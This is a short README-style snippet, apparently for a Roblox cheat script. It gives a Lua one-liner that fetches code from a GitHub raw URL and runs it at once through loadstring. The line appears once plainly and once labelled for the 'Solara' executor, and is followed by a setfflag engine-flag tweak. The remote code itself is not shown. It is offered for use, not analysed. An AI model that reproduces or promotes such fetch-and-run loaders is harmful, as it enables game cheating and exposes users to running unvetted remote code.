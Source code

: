 # Original
```
loadstring(game:HttpGet('https://raw.githubusercontent.com/1337h4xx/1/main/loader'))()
```

## Solara
```
loadstring(game:HttpGet('https://raw.githubusercontent.com/1337h4xx/1/main/loader'))()
```

```
setfflag("DebugRunParallelLuaOnMainThread","True");
```
